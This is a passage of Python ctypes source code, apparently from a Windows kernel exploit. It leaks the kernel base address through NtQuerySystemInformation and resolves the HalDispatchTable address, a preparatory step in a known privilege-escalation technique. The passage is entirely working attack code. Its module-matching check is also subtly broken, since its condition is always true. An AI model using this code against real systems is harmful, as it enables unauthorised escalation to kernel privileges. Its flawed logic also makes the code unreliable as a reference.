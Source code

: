 ```python
        sys_info,
        len(sys_info),
        addressof(sys_info_len)
    )

    if result == 0x0:
        print("[*] Success, allocated {}-byte result buffer".format(str(len(sys_info))))

    else:
        print("[!] NtQuerySystemInformation failed with NTSTATUS: {}".format(hex(result)))

    class SYSTEM_MODULE_INFORMATION(Structure):
        _fields_ = [("Reserved", c_void_p * 2),
                    ("ImageBase", c_void_p),
                    ("ImageSize", c_long),
                    ("Flags", c_ulong),
                    ("LoadOrderIndex", c_ushort),
                    ("InitOrderIndex", c_ushort),
                    ("LoadCount", c_ushort),
                    ("ModuleNameOffset", c_ushort),
                    ("ImageName", c_char * 256)]

    # thanks GradiusX
    handle_num = c_ulong(0)
    handle_num_str = create_string_buffer(sys_info.raw[:8])
    memmove(addressof(handle_num), handle_num_str, sizeof(handle_num))

    print("[*] Result buffer contains {} SystemModuleInformation objects".format(str(handle_num.value)))

    sys_info = create_string_buffer(sys_info.raw[8:])

    counter = 0
    for x in range(handle_num.value):
        tmp = SYSTEM_MODULE_INFORMATION()
        tmp_si = create_string_buffer(sys_info[counter:counter + sizeof(tmp)])
        memmove(addressof(tmp), tmp_si, sizeof(tmp))
        if "ntoskrnl" or "ntkrnl" in tmp.ImageName:
            img_name = tmp.ImageName.split("\\")[-1]
            print("[*] Kernel Type: {}".format(img_name))
            kernel_base = hex(tmp.ImageBase)[:-1]
            print("[*] Kernel Base: {}".format(kernel_base))
            return img_name, kernel_base
        counter += sizeof(tmp)

def hal_calc(img_name, kernel_base):

    
    kernel32.LoadLibraryA.restype = c_uint64
    kernel32.GetProcAddress.argtypes = [c_uint64, POINTER(c_char)]
    kernel32.GetProcAddress.restype = c_uint64
    
    kern_handle = kernel32.LoadLibraryA(img_name)
    if not kern_handle:
        print("[!] LoadLibrary failed to retrieve handle to kernel with error: {}".format(str(GetLastError())))
        sys.exit(1)
    print("[*] Kernel Handle: {}".format(hex(kern_handle))[:-1])

    userland_hal = kernel32.GetProcAddress(kern_handle,"HalDispatchTable")
    if not userland_hal:
        print("[!] GetProcAddress failed with error {}".format(str(GetLastError())))
        sys.exit(1)
```